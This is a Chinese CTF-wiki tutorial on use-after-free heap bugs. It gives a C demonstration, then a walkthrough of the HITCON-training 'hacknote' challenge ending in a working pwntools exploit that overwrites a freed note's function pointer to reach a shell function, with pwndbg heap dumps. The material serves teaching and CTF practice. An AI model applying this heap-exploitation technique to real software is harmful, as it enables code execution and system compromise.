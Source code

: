# Use After Free

## 原理

Use After Free 就是其字面所表达的意思，当一个内存块被释放之后再次被使用

- 内存块被释放后，其对应的指针被设置为 NULL ， 然后再次使用，自然程序会崩溃。
- 内存块被释放后，其对应的指针没有被设置为 NULL ，然后在它下一次被使用之前，没有代码对这块内存块进行修改，那么程序很有可能可以正常运转。
- 内存块被释放后，其对应的指针没有被设置为 NULL，但是在它下一次使用之前，有代码对这块内存进行了修改，那么当程序再次使用这块内存时，就很有可能会出现奇怪的问题。

而我们一般所指的 Use After Free 漏洞主要是后两种。此外，我们一般称被释放后没有被设置为 NULL 的内存指针为 dangling pointer。

例，

```c++
#include <stdio.h>
#include <stdlib.h>
typedef struct name {
  char *myname;
  void (*func)(char *str);
} NAME;
void myprint(char *str) { printf("%s\n", str); }
void printmyname() { printf("call print my name\n"); }
int main() {
  NAME *a;
  a = (NAME *)malloc(sizeof(struct name));
  a->func = myprint;
  a->myname = "I can also use it";
  a->func("this is my function");
  // free without modify
  free(a);
  a->func("I can also use it");
  // free with modify
  a->func = printmyname;
  a->func("this is my function");
  // set NULL
  a = NULL;
  printf("this pogram will crash...\n");
  a->func("can not be printed...");
}
```

![Alt](img/wiki-uaf.png)

## 例  HITCON-training，hacknote

程序的delete功能中free之后并未将指针设置为NULL，所以这里存在uaf
此外程序在add功能中会先申请一块内存，用来存放print的地址，之后输出功能的函数中即是调用这个函数地址

```c++
// 申请内存存储函数地址
  notelist[i] = malloc(8u);
  if ( !notelist[i] )
  {
    puts("Alloca Error");
    exit(-1);
  }
  *notelist[i] = print_note_content;

// print_note函数中执行这个地址
 result = notelist[v2];
  if ( result )
    result = (_DWORD *)((int (__cdecl *)(_DWORD *))*notelist[v2])(notelist[v2]);
```

### 利用

程序中存在magic函数可以获得shell，所以修改 note 的 put 字段为 magic 函数的地址，从而实现在执行 print note 的时候执行 magic 函数。
程序生成note的流程如下：

1. 申请8字节的内存用来存放note中的put以及content指针
2. 程序根据输入的size来申请指定大小的内存，然后用来存储content

```c++
notelist[i] = malloc(8u);
     if ( !notelist[i] )
     {
       puts("Alloca Error");
       exit(-1);
     }
     notelist[i]->put = print_note_content;
     printf("Note size :");
     read(0, &buf, 8u);
     size = atoi(&buf);
     v0 = notelist[i];
     v0->content = malloc(size);
     if ( !notelist[i]->content )
     {
       puts("Alloca Error");
       exit(-1);
     }
     printf("Content :");
     read(0, notelist[i]->content, size);
```

利用思路如下：

1. 申请 note0，real content size 为 16（大小与 note 大小所在的 bin 不一样即可）
2. 申请 note1，real content size 为 16（大小与 note 大小所在的 bin 不一样即可）
3. 释放 note0
4. 释放 note1
5. 此时，大小为 16 的 fast bin chunk 中链表为 note1->note0
6. 申请 note2，并且设置 real content 的大小为 8，那么根据堆的分配规则， note2 其实会分配 note1 对应的内存块。
7. real content 对应的 chunk 其实是 note0。
8. 这时候向 note2 real content 的 chunk 部分写入 magic 的地址，由于没有 将note0 为 NULL。再次尝试输出 note0 的时候，程序就会调用 magic 函数。

### exp

```python
from pwn import *
context.arch='i386'
# context.log_level="DEBUG"

p = process('./hacknote')

def add(size,content):
    p.recvuntil("Your choice :")
    p.send('1')
    p.recvuntil("Note size :")
    p.send(str(size))
    p.recvuntil("Content :")
    p.send(content)

def delete(index):
    p.recvuntil("Your choice :")
    p.send('2')
    p.recvuntil("Index :")
    p.send(str(index))

def prints(index):
    p.recvuntil("Your choice :")
    p.send('3')
    p.recvuntil("Index :")
    p.send(str(index))

def debug():
    gdb.attach(p)
    pause()

add(0x20,'AAAA')
# add one and free it,and add new smaller
# could not rewrite the function print
# pwndbg> parseheap
# addr                prev                size                 status              fd                bk
# 0x972c000           0x0                 0x10                 Used                None              None
# 0x972c010           0x0                 0x28                 Freed                0x0              None
# 0x972c038           0x0                 0x10                 Used                None              None
# pwndbg> x/16w 0x972c000
# 0x972c000:  0x00000000  0x00000011  0x080485fb  0x0972c040
# 0x972c010:  0x00000000  0x00000029  0x00000000  0x00000000
# 0x972c020:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x972c030:  0x00000000  0x00000000  0x00000000  0x00000011
# pwndbg> x/16w 0x0972c040
# 0x972c040:  0x43434343  0x00000000  0x00000000  0x00020fb9
# 0x972c050:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x972c060:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x972c070:  0x00000000  0x00000000  0x00000000  0x00000000
# pwndbg>

add(0x20,'BBBB')
delete(0)
delete(1)
add(8,p32(ELF('hacknote',checksec=False).sym['magic']))
# add(8,'CCCC')
# when we add twice and free them both, and add another smaller one, the new added's content was just start at first added's function print
# so, we just to rewrite the func print and get shell by the backdoor function(magic)
# later, just call  print_note() to execve the fake function print(magic), and get shell
# debug()
# pwndbg> parseheap
# addr                prev                size                 status              fd                bk
# 0x9f9a000           0x0                 0x10                 Used                None              None
# 0x9f9a010           0x0                 0x28                 Freed                0x0              None
# 0x9f9a038           0x0                 0x10                 Used                None              None
# 0x9f9a048           0x0                 0x28                 Freed          0x9f9a010              None
# pwndbg> x/16w 0x9f9a000
# 0x9f9a000:  0x00000000  0x00000011  0x43434343  0x09f9a018
# 0x9f9a010:  0x00000000  0x00000029  0x00000000  0x00000000
# 0x9f9a020:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x9f9a030:  0x00000000  0x00000000  0x00000000  0x00000011


prints(0)
# debug()
p.interactive()
```
